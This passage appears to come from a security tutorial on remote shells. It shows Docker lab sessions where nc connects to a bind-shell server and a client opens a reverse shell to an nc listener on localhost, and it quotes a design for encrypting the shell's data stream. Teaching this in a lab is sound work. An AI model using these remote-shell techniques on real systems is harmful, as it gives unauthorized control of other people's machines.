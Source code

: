 ```bash
# uname -a
Linux 7e837bd2c6b2 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

or running server in the docker container and client in the host machine:
```
# terminal 1
docker run --privileged -p 5000:5000 -it basic_cybersecurity6:latest
root@81bffa48f8a3:~# ./server 5000


# terminal 2
nc localhost 5000
$ nc localhost 5000
# uname -a
Linux 81bffa48f8a3 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
#
```
Note that we had to map port 5000 between docker and the host OS.

### Reverse Remote Shells
```bash
# terminal 1
$ docker run --privileged -p 5000:5000 -it basic_cybersecurity6:latest
root@812b61f0f7cc:~# nc -l -p 5000

# terminal 2
docker ps
CONTAINER ID        IMAGE                         COMMAND             CREATED             STATUS              PORTS                    NAMES
812b61f0f7cc        basic_cybersecurity6:latest   "bash"              3 seconds ago       Up 6 seconds        0.0.0.0:5000->5000/tcp   reverent_haibt
docker exec -it 812b61f0f7cc bash
root@812b61f0f7cc:~#
root@812b61f0f7cc:~# ./client 127.0.0.1 5000

# terminal 1
uname -a
Linux 812b61f0f7cc 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

### Encrypted remote shell

Following from previous code and taking inspiration from [4], we will extend the previous example to encrypt the data stream.

To begin with, as nicely explained at [4]:

>In order to crypt our communication, we need something in front of the shell that gets the data from/to the network and crypts/decrypts it. This can be done in many different ways.
>
>This time we have choose to launch the shell as a separated child process and use a socketpair to transfer the data received/sent through the network to the shell process. The father process will then crypt and decrypt the data going into/coming from the network/shell. This may look a bit confusing at first glance, but that is just because of my writing :).
>
>A socketpair is just a pair of sockets that are immediately connected. Something like running the client and server code in just one system call. Conceptually they behave as a pipe but the main difference is that the sockets are bidirectional in opposition to a pipe where one of the file descriptors is read only and the other one is write only.
>